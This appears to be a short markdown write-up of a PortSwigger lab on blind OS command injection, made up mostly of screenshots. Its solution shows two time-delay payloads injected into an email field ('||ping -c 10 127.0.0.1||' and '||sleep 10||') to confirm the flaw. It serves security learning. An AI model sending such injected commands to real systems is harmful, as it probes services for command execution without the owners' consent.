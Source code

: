 ## Lab Description:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6bc8b48c-8ac2-4bff-adad-b947cafc1081)

## Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ef93108c-cddd-4882-93ae-2116d15d8cc8)
```sql
email=jay%40gmail.com||ping+-c+10+127.0.0.1||
```
with ping command we can delay the response by 10 seconds  
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/113502bb-c43a-4304-833e-b4f673dd005f)
```sql
email=jay%40gmail.com||sleep+10||
```
By adding the & sleep # (Note the space before & and after #) / & sleep 10 &(URL-encode before sending) , we can see that the email parameter is vulnerable to command injection vulnerability, since there was time delay of 10 seconds.
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e0fb81c6-d282-4467-8a68-b6a85673aff5)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1b5dd773-8a9f-4a30-a5f2-bb2ad9e5fa1d)

